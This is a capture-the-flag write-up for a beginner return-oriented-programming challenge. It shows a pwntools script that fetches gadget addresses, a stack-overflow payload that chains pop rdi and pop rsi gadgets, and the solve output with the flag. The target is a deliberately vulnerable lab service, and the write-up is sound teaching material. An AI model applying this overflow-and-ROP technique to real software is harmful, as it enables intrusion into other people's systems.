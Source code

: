 # Mary Poppins strikes again

<p align="center">
<img src="./utils/mary_poppins_strikes_again.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain consisting of two gadgets:
  pop rdi (0x4038db)
  pop rsi (0x4038dd)
rdi should contain 0xdeadbeef, and rsi should contain 0xc0debabe.
Use the "Verify ROP chain" menu option to get the flag.

Google these terms for help:
- ROP gadgets
- ROP chaining

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

This challenge is very similar to `inspector's new gadget`, but that we for this challenge have to put a value in the `rsi` register, in addition to the `rdi` register.

We get the address all the useful gadgets we need from `option 5`, which we can automatize in our solve script.
```python
def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx
```

The payload we use is very similar to `inspector's new gadget`, only that we this time also add the `pop_rsi` gadget to put the value `0xc0debabe` into the `rsi` register.
```python
payload = b"A"*136
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi)
payload += p64(0xc0debabe)
```

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1341: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[*] Switching to interactive mode
ROP chain looks good! Congrats, here's the flag: flag{popping_flags_all_day}
```